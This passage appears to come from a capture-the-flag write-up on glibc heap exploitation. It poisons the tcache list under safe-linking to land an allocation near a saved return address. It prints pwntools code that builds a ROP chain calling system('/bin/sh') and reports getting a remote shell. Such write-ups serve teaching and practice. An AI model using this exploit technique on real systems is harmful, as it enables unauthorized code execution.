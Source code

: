 just 8 byte before the saved RIP seems to be a great target, even though it's not null, it is small enough that when it heap manager does demangle it from the safe linking, it would result in a null which in turns means the end of the `tcache` list (or at least that's what I thought what is happening here)

```python
create(7, 0x60, b'VICTIM', 0x60, b'VICTIM')
delete(7)

rip = mangle(heap, stack - 0x120 - 0x8)
update(7, p64(rip))

offset = 0x8
payload = flat({
    offset: [
        libc.address + 0x02a3e5, # pop rdi; ret;
        next(libc.search(b'/bin/sh\x00')),
        libc.address + 0x029139, # ret;
        libc.sym['system']
    ]
})
create(8, 0x60, b'VICTIM', 0x60, payload)

# return trigger ROP
io.sendlineafter('>>>', b'5')
```

running against remote, gained shell !
